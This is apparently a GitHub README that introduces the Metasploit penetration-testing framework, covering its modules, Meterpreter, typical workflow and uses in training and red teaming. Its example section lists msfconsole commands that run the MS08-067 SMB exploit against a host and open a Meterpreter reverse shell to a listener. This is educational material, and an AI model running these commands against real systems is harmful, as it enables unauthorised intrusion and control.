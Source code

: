 # metasploit-framework-07
The Metasploit Framework is a powerful, open-source tool used for penetration testing, security research, and vulnerability assessment. It provides security professionals and ethical hackers with a platform to identify, exploit, and validate vulnerabilities in computer systems. 
The framework is highly popular in cybersecurity due to its extensive database of exploits, payloads, and auxiliary modules.

Key Features of Metasploit Framework:
Exploit Development:

Metasploit has a vast library of ready-made exploits—code designed to take advantage of specific vulnerabilities in software or systems.
Users can develop and customize their own exploits or use existing ones from its database.
Payload Delivery:

Once a vulnerability is exploited, a payload is used to perform further actions on the target system.
Payloads can range from reverse shells (to gain control of the system) to installing malware or stealing data.
Auxiliary Modules:

In addition to exploits, Metasploit provides a set of auxiliary modules that include scanners, sniffers, and denial-of-service attack tools, useful for information gathering and network scanning.
Post-Exploitation Tools:

After compromising a system, Metasploit offers a set of post-exploitation tools to maintain access, gather further information, or expand control within the network.
Meterpreter:

Meterpreter is an advanced payload that operates entirely in memory, making it difficult to detect. It provides a rich set of features for exploring and interacting with the compromised system, including file browsing, process management, and keylogging.
Automation and Scripting:

The Metasploit Framework allows users to automate tasks with scripts and use advanced features like msfconsole, msfvenom (for crafting custom payloads), and Metasploit modules to conduct complex tests efficiently.
Common Uses of Metasploit:
Penetration Testing:

Ethical hackers use Metasploit to simulate cyberattacks and assess the security of networks, applications, and systems. The tool helps identify weaknesses and evaluate defenses.
Vulnerability Scanning:

Metasploit integrates with vulnerability scanners like Nmap and Nessus to identify and target vulnerable systems.
Exploit Development and Testing:

Researchers and security professionals use Metasploit to create, test, and refine exploits for known or newly discovered vulnerabilities.
Security Training:

Metasploit is widely used in cybersecurity training programs to teach students about real-world attacks, exploits, and defense mechanisms.
Red Teaming:

In Red Team exercises, where security teams simulate adversarial attacks, Metasploit is commonly used to simulate realistic threats.
Example Workflow:
Information Gathering: Use auxiliary modules or integration with tools like Nmap to scan a target network.
Vulnerability Analysis: Identify vulnerabilities and match them with Metasploit’s exploit database.
Exploitation: Choose an appropriate exploit to target the vulnerability, configure it, and execute it.
Payload Delivery: Deploy a payload, such as a reverse shell or Meterpreter, to gain control of the system.
Post-Exploitation: Explore the compromised system, escalate privileges, and gather additional information or data.
Reporting: Document findings, actions, and vulnerabilities to help remediate issues.
Example of Using Metasploit:

# Start the Metasploit console
msfconsole

# Search for a specific vulnerability exploit
search ms08_067

# Use the found exploit (in this case, for a Windows SMB vulnerability)
use exploit/windows/smb/ms08_067_netapi

# Set target IP address
set RHOST 192.168.1.10

# Set payload (reverse shell, for example)
set PAYLOAD windows/meterpreter/reverse_tcp

# Set local host to receive the reverse shell
set LHOST 192.168.1.100

# Execute the exploit
exploit


Metasploit Pro:
In addition to the open-source framework, there is a commercial version called Metasploit Pro with more advanced features such as automated penetration testing, phishing campaigns, and additional support for larger security teams.

Importance of Metasploit in Cybersecurity:
Metasploit is essential for security professionals to stay ahead of cyber threats by understanding and testing potential vulnerabilities before malicious hackers can exploit them. It is a widely respected tool in ethical hacking, red teaming, and penetration testing, making it a cornerstone in cybersecurity practices.










